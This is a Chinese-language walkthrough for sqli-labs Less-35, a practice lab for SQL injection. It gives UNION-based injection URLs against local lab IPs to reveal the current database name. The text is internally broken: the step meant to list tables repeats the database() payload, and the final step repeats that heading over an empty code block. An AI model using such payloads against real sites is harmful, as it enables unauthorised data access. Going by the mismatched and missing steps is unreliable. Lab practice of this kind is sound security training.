






# Less - 35

---

# 通关教程

---

## 1、判断闭合

---

先使用id=1

​​​​​​

​​​​

这里单引号被转义了，我们直接查看源代码

​​

这里也使用了GBK编码，但是我们根据错误信息判断这关为数字型注入，有没有单引号都无所谓，后面只要注意进行16进制转码就可以了-

---

## 2、查看当前数据库

---

```http
http://192.168.1.108/sqli-labs/Less-35/?id=-1 union select 1,2,database()--+
```

​​​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-35/?id=-1 union select 1,2,database()--+
```

​​

---

## 4、查看security库下的所有表

---

```http
```

​​
